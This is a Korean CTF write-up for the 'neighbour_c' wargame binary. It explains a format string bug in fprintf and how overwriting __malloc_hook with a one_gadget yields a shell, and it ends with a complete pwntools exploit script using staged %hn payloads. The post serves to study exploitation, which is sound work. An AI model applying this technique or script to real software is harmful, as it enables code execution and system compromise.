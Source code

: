 ```yaml
---
layout: post
title: "neighbour_c"
comments : true
category : War Game
---
```


# 문제
***

neighbour 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

file 명령어의 결과는 다음과 같다.
```
neighbour: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=fedb3f3faea895f3fb4bb28804602fce6815e81e, stripped
```

바이너리 코드

__sub_937()__
```
void __noreturn sub_937()
{
    ...
    sub_8D0(stderr);
}
```

__sub_8D0()__ 
```
void __fastcall __noreturn sub_8D0(FILE *a1)
{
    while( fgets(format, 256, stdin) )
    {
        fprintf(a1, format);
            sleep(1u);
    }
    exit(1);
}
```

기능과 취약점은 매우 간단하다. fgets로 받은 입력을 fprintf를 통해서 stderr에 출력하는데 fprintf에 Format String Bug가 존재한다. <br/>

64bit의 경우 함수의 인자가 6개가 넘어가면 스택을 통해서 인자를 전달한다. 따라서 fprintf에 서식 문자를 5개 이상 넣으면 스택에 접근할 수 있다. <br/>

따라서 FSB를 이용해 스택에 있는 값을 변경하고 변경한 값을 참조해서 메모리의 특정 영역에 있는 값을 overwrite할 수 있다. <br/>

하지만 neighbour 바이너리는 FULL RERLO가 옵션이 설정되어 있기 때문에 got overwrite가 불가능하다. <br/>

fprintf는 출력하는 문자열의 길이가 길면 내부적으로 malloc을 호출한다. (malloc은 fprintf 함수에 의해 호출되는 vfprintf에서 호출됨) <br/>

GNU C library는 malloc, realloc, free에 hook을 제공한다. (이는 hook 값을 변경 가능하도록 하여 디버깅을 수월하게 할 수 있도록 하기 위함이다.) 위의 함수들은 호출되면 hook이 존재하는지 확인하고 만약 존재하면 hook에 저장되어 있는 값을 호출한다. 따라서 hook을 one_gadget으로 덮어쓰면 쉘을 획득할 수 있다.
## exploit 방법
1. 스택에 존재하는 _IO_2_1_stderr_와 sfp를 통해서 libc와 스택 주소를 leak할 수 있다. 
2. libc leak을 통해서 __malloc_hook의 주소를 알아내고 스택에 __malloc_hook의 주소를 만든다. one_gadget과 hook에 저장되어 있는 값은 상위 4바이트 값이 동일하다. 따라서 하위 4바이트만 덮어쓰면 되는데 한 번에 4바이트 값을 덮어쓰면 fprintf에서 너무 많은 문자열이 출력되어서 fprintf가 터져버린다. 이를 방지하기 위해서 스택에 __malloc_hook 주소와 __malloc_hook+2의 주소를 만든다.
3. 스택에 만든 __malloc_hook 주소와 __malloc_hook+2의 주소를 참조해서 __malloc_hook의 값을 one_gadget의 주소로 덮어쓴다. (one_gadget의 constraint가 [rsp+0x70] == NULL이었는데 다행이 해당 위치에 NULL 값이 있었다.) 
<br/>

c.f) remote 환경에서는 stderr에 fprintf를 하면 나에게 출력이 오지 않는다. 따라서 stderr를 stdout으로 바꿔줘야 한다. 방법은 다음과 같다. <br/>
stderr->_fileno가 2로 설정되어 있는데 이 값을 1으로 덮어써주면 stderr를 stdout으로 바꿀 수 있다. stderr->_fileno는 stderr + 112 에 위치하고 있다. (혁이꺼 블로그 참조)  
<br/>
이 문제에서는 stack에 stderr 값이 존재하기 때문에 이 값 (하위 1바이트 0x40으로 고정)에 112 (0x70)를 더해준 값을 해당 위치에 덮어쓴다. 이를 위해서 스택에 stderr를 가리키는 값을 만들어줘야 하는데 5 - 8 비트가 랜덤이어서 확률이 1/16이 된다.
<br/>

__malloc_hook을 덮어쓰는 방법 외에도 fprintf ret 값을 one_gadget으로 덮어쓰는 방법이 있다. (혁이 방법은 libc의 stdin에 있는 _IO_jump_t vtable을 덮어쓰는 건데 이건 아직 잘 모르겠다...이 방법은 libc에서 vtable을 검증하는 IO_validate_vtable을 호출해서 dl_open_hook도 덮어줘야 한다는데...나중에 찾아보도록 하자ㅋㅋㅋ)
# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round3/neighbour_c/neighbour"

def send_pay(pay):
	p.sendline(pay+"end")
	while "end" not in p.recv(0x1000):
 		pass

	print "send complete"

#p=remote("localhost",7777)
p=process(file_path,env={"LD_PRELOAD" : "/home/sungyun/round3/neighbour_c/libc.so.6"})
#libc=ELF("/home/sungyun/round3/neighbour_c/libc.so.6")

p.recvuntil("mayor.\n")

p.sendline("%12llx"*9)
p.recv(12*5)

stderr=int(p.recv(12),16)

p.recv(24)

stack=int(p.recv(12),16)-40
low2_stack=int(hex(stack)[10:],16)

#find with readelf -s command
#libc_base=stderr-0x3c2520  # libc_old_ver
libc_base=stderr-0x3c5540

#one_gad=libc_base+0xf24cb # constraint => [rsp+0x60] == NULL #libc_old_ver
one_gad=libc_base+0xf1147 # constraint => [rsp+0x70] == NULL
hi_one_gad=int(hex(one_gad)[6:10],16)
low_one_gad=int(hex(one_gad)[10:],16)

#malloc_hook=libc_base+0x3c1af0 #libc_old_ver
malloc_hook=libc_base+0x3c4b10
low_m_hook=int(hex(malloc_hook)[10:],16)
hi_m_hook=int(hex(malloc_hook)[6:10],16)

pay="%12llx"*7
pay+="%"+str(low2_stack-12*7)+"llx"
pay+="%hn"

send_pay(pay)

pay2="%12llx"*9
pay2+="%"+str(low_m_hook-12*9)+"llx"
pay2+="%hn"

send_pay(pay2)

pay3="%12llx"*7
pay3+="%"+str(low2_stack-12*7+64)+"llx"
pay3+="%hn"

send_pay(pay3)

pay4="%12llx"*9
pay4+="%"+str(low_m_hook-12*9+2)+"llx"
pay4+="%hn"

send_pay(pay4)

pay5="%12llx"*7
pay5+="%"+str(low2_stack-12*7+64+2)+"llx"
pay5+="%hn"

send_pay(pay5)

pay6="%12llx"*9
pay6+="%"+str(hi_m_hook-12*9)+"llx"
pay6+="%hn"

send_pay(pay6)

pay7="%12llx"*4
pay7+="%"+str(low_one_gad-48)+"llx"
pay7+="%hn"
pay7+="%12llx"*6

if hi_one_gad > (low_one_gad+72):
	pay7+="%"+str(hi_one_gad-(low_one_gad+72))+"llx"
else:
	pay7+="%"+str(0x10000+hi_one_gad-(low_one_gad+72))+"llx"

pay7+="%hn"

send_pay(pay7)

p.sendline("%1000000llx")  # fprintf use malloc when large input comes

p.interactive()
```

